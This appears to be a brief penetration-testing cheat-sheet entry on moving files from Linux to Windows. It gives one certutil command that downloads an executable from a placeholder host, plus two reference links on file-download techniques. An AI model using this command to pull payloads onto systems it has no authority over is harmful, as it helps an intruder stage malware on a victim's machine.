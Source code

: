 # **Transferring files**

File Transfer (download copy from linux to windows)

```
 certutil -urlcache -f http://ip/1.exe 1.exe​
```

```
https://blog.ropnop.com/transferring-files-from-kali-to-windows/https://blog.netspi.com/15-ways-to-download-a-file/
```

​

